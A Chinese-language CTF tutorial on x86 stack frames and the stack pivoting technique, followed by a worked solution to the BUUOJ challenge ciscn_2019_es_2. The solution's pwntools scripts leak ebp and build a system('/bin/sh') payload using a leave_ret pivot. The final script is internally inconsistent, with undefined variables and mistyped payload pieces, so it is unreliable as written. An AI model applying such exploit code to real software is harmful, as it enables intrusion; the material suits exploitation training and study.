## 1. C语言函数调用栈帧
### 1.1 知识铺垫
函数调用常用的寄存器有
- ebp  栈底指针
- esp  栈顶指针
- eip  程序当前运行位置的指针

函数栈帧结构



常见函数调用反汇编代码如下
```
call  function   以main函数调用function为例

function:
push ebp
mov ebp, esp
sub esp, 0x100
....
....
....
mov esp, ebp
pop ebp
ret 
```
1. 返回地址入栈，保存main当前函数执行位置
2. push ebp  将main函数的ebp入栈，保存main函数栈底指针。称为old ebp
3. mov ebp, esp  ebp=esp  将esp和ebp指针都执行栈底。
4. sub esp,0x100 在栈上分配xxx字节的临时空间。栈顶指针抬高。
5. ......
6. ......
7. mov esp, ebp ; pop ebp  常见为leave指令。将栈底指针赋值给栈顶指针，esp = ebp,释放栈空间。pop ebp将old ebp弹出赋值给ebp，即main函数的ebp
8. ret 即pop eip

ret 指令理解：/*取栈顶的数据作为下次跳转的位置*/即
- eip = [esp]
- esp = esp + 4
ret 会修改eip和esp的值，就相当于pop eip（pop指令会附加esp的移动，意思是取栈顶的数据作为下次跳转的位置），然后执行jump。

相比之下，call指令即 push  eip(此时eip为call指令的下一条指令的地址，意思是将call指令的下一条地址入栈)然后jump。

32位函数调用栈帧变化


主要就是注意栈帧的变化。
## 栈迁移
为什么需要栈迁移？

栈溢出在构造rop链时，可能会遇到构造空间不够的情况，比如需要构造48字节的数据，但read只能读入40字节。但是我们可以控制ebp及ret的值。此时可以利用栈迁移的方法拓展栈空间。

栈迁移的条件？

可以控制rbp或者ret
控制一块可执行的内存，并且可以连续两次控制该内存。

栈迁移的技术原理？

函数调用结束。一般会执行leave  ret两条汇编指令
```
leave  :   mov esp, ebp
           pop ebp
ret    :   pop eip
```
pop ebp 后，esp指针指向返回地址。但是如果返回地址指向的是leave指令的地址。会再次执行 mov esp, ebp ，即可以将esp栈顶指针重新赋值。而ebp是可以进行控制。从而将栈帧移动到一个新的位置。
在攻击时需要连续两次执行leave_ret，从而控制函数返回地址。一般函数在执行完成返回时，会自动执行一次leave_ret。所以在攻击时，要先将ebp改为新栈帧的地址，再将ret地址改为leave_ret的地址，便可以达到连续两次执行leave_ret的目的。

栈迁移过程
1. 首先确定缓冲区变量在溢出时可以覆盖栈上ebp和ret两个位置
2. 选取要被劫持到的目的地址，例如bss内存段，记作bss_addr
3. 寻找leave_ret gadget地址，记作leave_ret
4. 设置缓冲区变量，将ebp地址赋值为bss_addr-4, 将ret覆盖为leave_ret.



5. pop eip后执行伪造的leave_ret。


以上过程即可将esp指向bss等可以写入shellcode的数据段

## 3. 题目练习1——ciscn_2019_es_2
题目链接 https://buuoj.cn/challenges#ciscn_2019_es_2
### 3.1 题目信息


read可以读取48个字节，但栈空间溢出后只剩8字节，所以需要使用到栈迁移、迁移空间足够后，需要知道/bin/sh的地址，这个可以通过read输入。但需要计算其地址，计算偏移。
### 3.2 解题过程
1. 泄露ebp基址



40字节的缓冲区+4字节ebp。如果输入40字节的字符串数据，%s会将后面的ebp数据也会打印出来
```
from pwn import *
io = process('./ciscn_2019_es_2')
payload = flat(['a'*0x27,'b'])
io.sendafter("Welcome, my friend. What's your name?",payload)
io.recvuntil('b')
ebp_addr = u32(io.recv(4))
print(hex(ebp_addr))
```
2. 计算要迁移的基址
   可以尝试迁移到栈上或者bss数据段。这里迁移到栈上。这里就要计算数据输入距离ebp的位置。


3. 计算system的地址
程序中提供有system函数

system_addr = elf.symbols['system']
print(hex(system_addr))
4. 获取leave_ret地址

5. 构造payload
   payload = p32(system_addr)+p32(0xdeadbeef)+p32(bin_sh_offset)+p64('/bin/sh\x00')+p32(ebp_addr-0x38-4)+p32(leave_ret)
```
from pwn import *
io = process('./ciscn_2019_es_2')
payload = flat(['a'*0x27,'b'])
io.sendafter("Welcome, my friend. What's your name?",payload)
io.recvuntil('b')
ebp_addr = u32(io.recv(4))
print(hex(ebp_addr))

payload2 = p32(system_addr)
payload2 += b'0xdeadbeef'     # 返回地址
payload2 += p32(original_ebp - 44)  # /bin/sh在栈中的偏移，计算得出的是地址。
payload2 += b'/bin/sh\x00' #   8个字节，4字节对齐
payload2 = payload2.ljust(0x28, b'p')

payload2 += p32(original_ebp - 0x38 -4) # 
payload2 += p32(leave_ret) 

p.sendline(payload2)
p.interactive()
```
这里的0x28和

## 参考链接
[函数调用栈帧](https://blog.csdn.net/m0_53921051/article/details/123969071?spm=1001.2014.3001.5501)

[栈迁移](https://www.cnblogs.com/max1z/p/15299000.html)

[栈迁移](https://blog.csdn.net/m0_53921051/article/details/123969983)
